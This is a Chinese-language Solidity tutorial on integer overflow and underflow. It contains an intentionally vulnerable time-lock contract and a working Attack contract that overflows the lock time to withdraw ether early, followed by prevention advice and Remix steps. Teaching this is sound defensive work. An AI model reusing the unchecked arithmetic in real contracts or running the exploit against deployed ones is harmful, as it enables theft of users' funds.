 # 67.Arithmetic Overflow and Underflow
##漏洞
### Solidity < 0.8
Solidity中的整数会发生溢出/下溢，但没有任何错误提示。
### Solidity >= 0.8
Solidity 0.8的默认行为是在发生溢出/下溢时抛出错误。


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

// 这个合约被设计成一个时间保险箱。
// 用户可以向此合约存款，但至少需要等待一周后才能取款。
// 用户也可以延长等待时间超过一周。
/*
1. 部署TimeLock
2. 部署Attack，将TimeLock的地址传递给Attack
3. 调用Attack.attack发送1个以太币。您将立即能够取回您的以太币。

发生了什么？
攻击导致TimeLock.lockTime溢出，并在一周等待期结束之前取款。
*/

contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease;
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        如果t是当前锁定时间，则我们需要找到x，使得
        x + t = 2**256 = 0
        所以x = -t
        2**256 = type(uint).max + 1
        所以 x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```
##预防技术
使用SafeMath可以防止算术溢出和下溢。

Solidity 0.8默认情况下在发生溢出/下溢时会抛出错误。

## remix验证
1. 部署TimeLock合约。部署Attack合约，并传递TimeLock合约的地址给它。
![67-1.jpg](img/67-1.jpg)